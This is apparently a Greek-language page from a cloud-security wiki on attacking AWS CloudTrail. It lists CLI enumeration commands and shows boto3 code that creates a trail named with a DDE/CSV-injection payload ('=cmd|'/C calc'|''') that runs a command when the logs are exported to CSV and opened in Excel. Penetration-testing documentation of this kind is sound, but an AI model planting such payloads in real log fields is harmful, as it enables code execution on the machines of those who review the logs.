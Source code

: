 <figure><img src="../../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

## Actions

### Enumeration
```bash
# Get trails info
aws cloudtrail list-trails
aws cloudtrail describe-trails
aws cloudtrail list-public-keys
aws cloudtrail get-event-selectors --trail-name <trail_name>
aws [--region us-east-1] cloudtrail get-trail-status --name [default]

# Get insights
aws cloudtrail get-insight-selectors --trail-name <trail_name>

# Get data store info
aws cloudtrail list-event-data-stores
aws cloudtrail list-queries --event-data-store <data-source>
aws cloudtrail get-query-results --event-data-store <data-source> --query-id <id>
```
### **CSV Injection**

Είναι δυνατή η εκτέλεση μιας CVS injection μέσα στο CloudTrail που θα εκτελέσει αυθαίρετο κώδικα αν τα logs εξάγονται σε CSV και ανοίγονται με το Excel.\
Ο παρακάτω κώδικας θα δημιουργήσει μια καταχώρηση log με ένα κακό Trail name που περιέχει το payload:
```python
import boto3
payload = "=cmd|'/C calc'|''"
client = boto3.client('cloudtrail')
response = client.create_trail(
Name=payload,
S3BucketName="random"
)
print(response)
```
Για περισσότερες πληροφορίες σχετικά με τις επιθέσεις CSV, ελέγξτε τη σελίδα:
